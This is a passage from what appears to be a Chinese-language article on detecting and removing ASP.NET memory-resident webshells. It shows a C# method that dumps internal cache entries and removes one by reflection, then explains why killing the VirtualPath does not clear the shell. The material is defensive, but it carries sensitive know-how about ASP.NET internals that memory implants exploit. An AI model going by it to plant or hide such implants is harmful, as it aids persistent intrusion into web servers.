                streamWriter.Write(obj.Key.ToString() + " | " + obj.Value.ToString() + " | " + fieldInfo.GetValue(obj.Value) + "
");
            }

        }
    }

    if (s != "")
    {
        MethodInfo methodInfo1 = type.GetMethod("Remove", new Type[] { typeof(string) });
        methodInfo1.Invoke(internalCache, new object[] { s });
    }


    return "Success";
}
```

查杀 `VirtualPath` 可以吗？

不可以， `GetVPathBuildResultInternal` 最后从 `Set` 中删除了生成的 `VirtualPath`
